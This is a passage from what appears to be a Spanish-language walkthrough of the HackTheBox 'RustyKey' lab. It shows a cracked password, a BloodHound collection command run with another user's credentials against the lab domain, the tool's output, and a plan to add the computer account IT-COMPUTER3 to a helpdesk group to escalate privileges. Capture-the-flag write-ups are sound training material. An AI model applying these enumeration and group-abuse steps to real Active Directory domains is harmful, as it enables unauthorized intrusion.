 tenemos una password `Rusty88!` ahora vamos averiguar a quien pertenece dicha password con `bloodhound`

```bash
bloodhound-python  -u 'rr.parker' -p '8#t5HE8L!W3A' -k -d rustykey.htb -ns 10.10.11.75 -c ALl --zip
```
```bash
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc.rustykey.htb
INFO: Done in 00M 32S
INFO: Compressing output into 20250706063014_bloodhound.zip
```

lo cargamos en bloodhound la informacion extraida anteriormente y localizamos la cuenta con el RIP `1125` que corresponde al hash crackeado

![image](https://github.com/user-attachments/assets/6a0f46e8-c56f-444c-8755-4cff913360ab)


la password `Rusty88!` pertecene al usuario `IT-COMPUTER3` Y vemos mas informacion en bloodhound

![image](https://github.com/user-attachments/assets/fee84c7a-cd5c-4421-8958-5c8f0ba23193)


siguiendo las instrucciones de bloodhound podemos agregar el usuario `IT-COMPUTER3` al grupo `HELDESK`

